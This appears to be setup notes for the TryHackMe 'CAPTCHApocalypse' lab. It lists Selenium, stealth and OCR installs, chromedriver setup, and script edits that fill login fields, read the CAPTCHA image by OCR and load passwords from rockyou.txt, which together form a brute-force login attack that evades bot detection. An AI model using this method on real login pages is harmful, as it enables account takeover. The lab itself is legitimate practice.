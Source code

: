 TryHackMe room CAPTCHApocalypse https://tryhackme.com/room/captchapocalypse

Setup enviroment on TryHackMe Attackbox for captcha Python script:

python3.9 -m venv myproject

pip install selenium selenium_stealth  fake_useragent pillow pytesseract

--
Install Chromium and chromedriver

wget https://storage.googleapis.com/chrome-for-testing-public/137.0.7151.103/linux64/chromedriver-linux64.zip


unzip chromedriver-linux64.zip
sudo mv chromedriver-linux64/chromedriver /usr/local/bin/chromedriver
sudo chmod +x /usr/local/bin/chromedriver
chromedriver --version


sudo apt install chromium-browser

options.binary_location = "/usr/bin/chromium-browser"

# Required for headless, VM, and root environments
options.add_argument("--headless=new")  # modern headless mode
options.add_argument("--no-sandbox")
options.add_argument("--disable-dev-shm-usage")
options.add_argument("--remote-debugging-port=9222")  # crucial for "DevToolsActivePort" error
options.add_argument("--user-data-dir=/tmp/chrome")   # avoids conflicts running as root

==
Changes to original script:

===
Change Form Submission Method

chrome.find_element(By.TAG_NAME, "form").submit()
chrome.find_element(By.ID, "login-btn").click()
===
Update Form Field Selectors

chrome.find_element(By.NAME, "username").send_keys(username)
chrome.find_element(By.NAME, "password").send_keys(password)
chrome.find_element(By.NAME, "captcha_input").send_keys(captcha_text)

chrome.find_element(By.ID, "username").send_keys(username)
chrome.find_element(By.ID, "password").send_keys(password)
chrome.find_element(By.ID, "captcha_input").send_keys(captcha_text)
===
Update CAPTCHA Image Selector
captcha_img_element = chrome.find_element(By.TAG_NAME, "img")
captcha_img_element = chrome.find_element(By.CSS_SELECTOR, "img[src='captcha.php']")
==
 Add Wait Time for AJAX
 
chrome.find_element(By.TAG_NAME, "form").submit()
time.sleep(1)

chrome.find_element(By.ID, "login-btn").click()
time.sleep(3)  # Longer wait for AJAX request

===



# Read first 100 lines from rockyou.txt
with open("rockyou.txt", "r", encoding="latin1") as f:
    passwords = [line.strip() for _, line in zip(range(100), f)]
    
